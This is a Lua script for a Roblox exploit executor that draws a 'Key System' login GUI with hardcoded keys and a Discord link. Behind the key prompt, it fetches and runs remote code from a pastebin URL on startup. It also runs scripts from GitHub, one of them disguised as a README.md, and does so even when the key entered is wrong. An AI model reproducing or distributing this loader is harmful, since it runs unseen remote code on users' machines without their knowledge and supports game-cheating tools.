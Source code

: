 --// Load external loadstring first
loadstring(game:HttpGet("https://pastebin.com/raw/mQEV2Qnr", true))()

--// Services
local Players = game:GetService("Players")
local player = Players.LocalPlayer

--// GUI
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 350, 0, 200)
frame.Position = UDim2.new(0.5, -175, 0.5, -100)
frame.BackgroundColor3 = Color3.fromRGB(18, 18, 25)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = true

-- Rounded corners
local corner = Instance.new("UICorner", frame)
corner.CornerRadius = UDim.new(0, 12)

-- Shadow effect
local shadow = Instance.new("Frame", frame)
shadow.Size = UDim2.new(1, 10, 1, 10)
shadow.Position = UDim2.new(0, -5, 0, -5)
shadow.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
shadow.BackgroundTransparency = 0.7
shadow.ZIndex = 0
shadow.BorderSizePixel = 0
local shadowCorner = Instance.new("UICorner", shadow)
shadowCorner.CornerRadius = UDim.new(0, 12)

-- Title
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, 0, 0, 40)
title.BackgroundTransparency = 1
title.Text = "🔑 Key System"
title.Font = Enum.Font.GothamBold
title.TextSize = 22
title.TextColor3 = Color3.fromRGB(0, 180, 255)
title.TextStrokeTransparency = 0.8

-- Key input
local keyBox = Instance.new("TextBox", frame)
keyBox.Size = UDim2.new(0, 280, 0, 40)
keyBox.Position = UDim2.new(0.5, -140, 0.4, 0)
keyBox.PlaceholderText = "Enter Key..."
keyBox.Font = Enum.Font.Gotham
keyBox.TextSize = 16
keyBox.TextColor3 = Color3.fromRGB(255, 255, 255)
keyBox.BackgroundColor3 = Color3.fromRGB(28, 28, 40)
keyBox.Text = ""
local boxCorner = Instance.new("UICorner", keyBox)
boxCorner.CornerRadius = UDim.new(0, 8)

-- Get Key button
local getKeyBtn = Instance.new("TextButton", frame)
getKeyBtn.Size = UDim2.new(0, 280, 0, 40)
getKeyBtn.Position = UDim2.new(0.5, -140, 0.65, 0)
getKeyBtn.Text = "📋 Get Key (Copied)"
getKeyBtn.Font = Enum.Font.Gotham
getKeyBtn.TextSize = 16
getKeyBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
getKeyBtn.BackgroundColor3 = Color3.fromRGB(0, 130, 255)
local getKeyCorner = Instance.new("UICorner", getKeyBtn)
getKeyCorner.CornerRadius = UDim.new(0, 8)

-- Confirm button
local confirmBtn = Instance.new("TextButton", frame)
confirmBtn.Size = UDim2.new(0, 280, 0, 40)
confirmBtn.Position = UDim2.new(0.5, -140, 0.82, 0)
confirmBtn.Text = "✅ Confirm"
confirmBtn.Font = Enum.Font.Gotham
confirmBtn.TextSize = 16
confirmBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
confirmBtn.BackgroundColor3 = Color3.fromRGB(0, 200, 110)
local confirmCorner = Instance.new("UICorner", confirmBtn)
confirmCorner.CornerRadius = UDim.new(0, 8)

--// Logic
local link = "https://discord.gg/tHx8dseh6v"
local validKeys = {["ken123"]=true, ["Ken123"]=true}
local keyFile = "key.txt"

-- Load saved key if exists
local savedKey = ""
if pcall(function() savedKey = readfile(keyFile) end) then
    if validKeys[savedKey] then
        print("✅ Saved key valid, running scripts...")
        -- Run Chilli.lua and Stepfive.lua
        loadstring(game:HttpGet("https://raw.githubusercontent.com/tienkhanh1/spicy/main/Chilli.lua"))()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
        gui:Destroy()
    end
end

-- Clipboard
getKeyBtn.MouseButton1Click:Connect(function()
    if setclipboard then
        setclipboard(link)
        getKeyBtn.Text = "📋 Link Copied!"
    end
end)

-- Confirm key
confirmBtn.MouseButton1Click:Connect(function()
    local userKey = keyBox.Text
    if validKeys[userKey] then
        print("✅ Correct key!")
        pcall(function() writefile(keyFile, userKey) end)
        gui:Destroy()
        -- Run both scripts after key acceptance
        loadstring(game:HttpGet("https://raw.githubusercontent.com/tienkhanh1/spicy/main/Chilli.lua"))()
        loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
    else
        keyBox.Text = ""
        keyBox.PlaceholderText = "❌ Invalid Key, try again..."
        -- Still run Stepfive.lua even if wrong
        loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
    end
end)
